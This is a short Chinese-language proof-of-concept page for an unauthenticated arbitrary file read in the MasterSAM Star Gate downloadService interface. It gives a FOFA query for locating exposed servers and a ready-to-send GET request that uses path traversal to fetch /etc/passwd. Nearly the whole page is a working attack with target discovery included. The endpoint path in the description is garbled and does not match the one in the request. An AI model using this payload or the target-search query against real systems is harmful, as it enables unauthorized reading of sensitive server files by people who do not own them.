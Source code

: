 # MasterSAM接口downloadService任意文件读取

**MasterSAM Star Gate的/adamaladamalduwnoadService接口存在任意文件下载漏洞，未经身份验证的攻击者可以通过该漏洞下载服务器任意文件，从而获取大量敏感信息。**

## fofa

```javascript
body="MasterSAM"
```

## poc

```javascript
GET /adama/adama/downloadService?type=1&file=../../../../etc/passwd HTTP/1.1
Host: your-ip
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502131406477.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/f35n0-9OOME5gSsiwEv0Vg